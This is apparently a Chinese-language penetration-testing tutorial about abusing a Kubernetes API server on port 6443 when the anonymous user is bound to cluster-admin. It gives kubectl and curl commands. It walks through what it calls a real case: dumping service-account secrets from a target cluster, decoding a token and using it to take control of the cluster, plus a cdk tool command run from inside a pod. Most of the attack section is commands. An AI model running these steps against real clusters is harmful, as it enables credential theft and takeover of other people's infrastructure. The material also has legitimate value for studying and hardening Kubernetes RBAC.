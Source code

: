 ![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665396890689-e94aeff3-227b-4a19-a57e-16c15417eaf9.png)

<font style="color:rgb(51, 51, 51);background-color:rgb(251, 250, 248);">如果在配置错误，将system:anonymous用户绑定到了cluster-admin用户组，那么匿名用户可以支配集群。 </font>

```plain
#在Master节点上执行
kubectl create clusterrolebinding cluster-system-anonymous --clusterrole=cluster-admin --user=system:anonymous
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665397092699-6a2a0719-a417-47df-a231-c487826534c1.png)

```plain
#在任意Node工作节点上以匿名用户访问，为高权限
curl https://10.206.0.2:6443 -k
```

# ![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665397156082-7dfa7dbc-3fd5-4fe7-9197-f28db87024cd.png)


### 获取secrets凭证
下边通过一个实战中的真实案例，说明如何通过6443端口高权限角色匿名访问，获取高权限ServiceAccount身份认证凭据，拿下集群控制权限的过程。

首先访问目标6443端口，未鉴权可匿名访问

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665397404199-dc6d54a4-fa6c-46da-abad-bccb45d27b1a.png)

```plain
#获取secrets身份认证凭据
https://10.160.27.4:6443/api/v1/secrets
https://10.160.27.4:6443/api/v1/namespaces/kube-system/secrets/
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665397443455-cf969037-bea1-4ef4-b82d-0cf4a535441c.png)

获取的token会有很多，大部分是系统自带的，有些没什么操作权限，需要找到那个运维创建的账号如admin等等。这里选择列表第一组token，下载到本地，base64解码在本地保存证书和token

```plain
kubectl --certificate-authority=ca.crt --server="https://10.160.27.4:6443" --token="eyJhbGciOiJSU..." get ns
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665397513981-1f8c4a6f-569f-4434-b36c-83feaa67adb7.png)

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665397605664-6a88c576-e7ff-414d-bd25-5071b3d230f3.png)

或者可以使用cdk工具，在Pod容器上运行 

```plain
./cdk kcurl anonymous get "https://10.206.0.2:6443/api/v1/nodes" 
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665397965086-51236066-76f8-465d-ac20-37a118c7beec.png)

